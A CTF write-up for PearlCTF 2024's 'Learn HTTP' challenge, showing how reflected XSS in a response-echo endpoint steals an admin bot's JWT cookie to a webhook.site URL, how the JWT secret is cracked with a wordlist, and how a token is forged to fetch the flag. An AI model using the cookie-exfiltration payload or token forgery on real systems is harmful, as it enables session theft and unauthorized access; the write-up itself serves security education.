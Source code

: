 PearlCTF 2024
===

## Learn HTTP

>[!Note]
Reflected XSS, SSRF, JWT Token


I made a simple web application to teach you guys how HTTP responses work, I hope you enjoy :)

url: https://learn-http.ctf.pearlctf.in

Probset gave the source code of the app and the link to the their web app.



### Enumerate

On image 1, the web app have the intention to give the client what response of web they want. It have three main points on the index:

1. HTTP response
2. link to the http response
3. admin checker
![image](https://hackmd.io/_uploads/S1bS5h4jA.png)





#### Check Response

Try if it allow any HTML or XSS injection with the following payload and it will provide you with the alert mean that it success and can inject reflected XSS into the response.

```url
https://learn-http.ctf.pearlctf.in/resp?body=<script>alert(1);</script>
```



#### Check Source Code

Look up on the source code (image 2), there are also three main parts, which is **bot.js, main.go,** and **main.js**&#x20;


![image](https://hackmd.io/_uploads/Byzv5nEsC.png)

In **main.js**, I found it has 3 route: **/**, **/check**, and **/flag.** Some focus point on this snippet source code is:

* **genToken**: remember **jwt** (JSON Web Token) pattern.
* in route **/check**, it spawn **bot.js** and give **url** and **token** data to it. Should check the **bot.js** file
* in route **/flag**, it will check whether the **id** is **2** or not, indicate that we must edit the token.


- main.js
```javascript
...
const genToken = () => {
    var token = jwt.sign({ id: 1 }, process.env.SECRET);
    return token
}

app.post("/check", (req, res) => {
    try {
        let req_body = req.body.body
        
        if (req_body == undefined) {
            return res.status(200).send("Body is not provided")
        }

        let to_req = `http://localhost:5001/resp?body=${encodeURIComponent(req_body)}`

        childProcess.spawn('node', ['./bot.js', JSON.stringify({
            url: to_req,
            token: genToken()
        })]);

        return res.status(200).send("Admin will check!")
    } catch (e) {
        console.log(e)
        return res.status(500).send("Internal Server Error")
    }
})

<strong>app.get("/flag", (req, res) => {
</strong>    let token = req.cookies.token
    try {
        var decoded = jwt.verify(token, process.env.SECRET)
        if (decoded.id != 2) {
            return res.status(200).send("You are not verified")
        }

        return res.status(200).send(process.env.FLAG)
    } catch {
        return res.status(200).send("You are not verified")
    }
})

app.listen("5000", () => {
    console.log("Server started")
})
...

```


In **bot.js**, the page will set some cookie with name **token** and it **JWT** token values. It also have the timeout around 3 hours before the token expired.&#x20;

- bot.js
```javascript
...
let page = await browser.newPage();
		await page.setCookie({
			name: 'token',
			value: token,
			domain: 'localhost',
			httpOnly: false,
			secure: true,
			sameSite: 'None'
		});
		await page.goto(url,{ waitUntil: 'domcontentloaded', timeout: 3000 });
		await new Promise(r=>setTimeout(r,10000));
...
```


### Conclusion

From here, I concluded that the concept is to retrieve the token from local so we can use the token to gain access to the **/flag.** This attack called **SSRF** ( Server-Side Request Forgery) where web security vulnerability allow attacker to cause server-side application to make requests to the unintended location ([Portswigger](https://portswigger.net/web-security/ssrf)).



### Exploit

Search some reflected XSS payload from:

url: https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md

The payload and additional webhook to catch the cookies (I remove the alert on the full payload).

```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="webhook.site//?"+document.cookie;
</script>

```



since on the payload must include the URL encoding, here the full payload to catch the token:

```url
https://learn-http.ctf.pearlctf.in/resp?body=HTTP%2F1.1%20200%20OK%0D%0A%0D%0A<script>var%20i=new%20Image;i.src="https://webhook.site/da7f2c82-e06f-47ba-b2f8-9b22c747da15?"%2bdocument.cookie;</script>
```



After setting up webhook and sent the payload, I got the feedback on webhook indicate that it succeed captured the cookies named **token** and it values.

![image](https://hackmd.io/_uploads/HkcHsnEiA.png)


Analyze the last endpoint to get the flag. The token contain JWT and in line 5 the token will verify the JWT authentication between the token and the **SECRET** they provided for JWT. In line 6, it has a checker that the **id** must be valued with **2**.

* [ ] need to know the **SECRET** from the JWT token.
* [ ] need to change the **id** value to **2** without broke the auth token.

- main.js
```javascript
...
app.get("/flag", (req, res) => {
    let token = req.cookies.token
    try {
        var decoded = jwt.verify(token, process.env.SECRET)
        if (decoded.id != 2) {
            return res.status(200).send("You are not verified")
        }

        return res.status(200).send(process.env.FLAG)
    } catch {
        return res.status(200).send("You are not verified")
    }
})
...
```

Here JWT Token Concept where it made of **Header**, **Payload**, and **Secret** so it will become **Signature** and be a **JWT** token. To decode, need the **Secret** to keep authentication of the token.

![image](https://hackmd.io/_uploads/H1RnohVoC.png)

To deal with it, I use [JWT token cracker](https://github.com/lmammino/jwt-cracker?tab=readme-ov-file) to obtain the S**ecret** and use [this website](https://jwt.io/#debugger-io) (jwt.io) to change the value of JWT token's **id** and try to "keep" the token auth is real (spoof).



- tool, wordlist, and payload
```bash
jwt-cracker -t thetoken -d /usr/share/seclists/Passwords/darkweb2017-top10000.txt 

```


![image](https://hackmd.io/_uploads/HJTbh2NjR.png)

use the **Secret** on the **Signature** part and change the **id** to **2** so it can pass the checker.

![image](https://hackmd.io/_uploads/SJoyhhEsA.png)


### Code Solver

```python

import requests

url = "https://learn-http.ctf.pearlctf.in/flag"

params={
    "host":"http://localhost:5001/"
}

cookies={
    "token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNzA5OTg0NDU5fQ.TgOMUwqpP3P34lFfu9eAiNPZFrNvkF7gAawQacOzPyc"
}

res = requests.get(url,cookies=cookies,params=params)

print(res.text)

```

:::success
**pearl{c4nt\_s3nd\_th3\_resP0n53\_w1th0ut\_Sani7iz1ng}**
:::



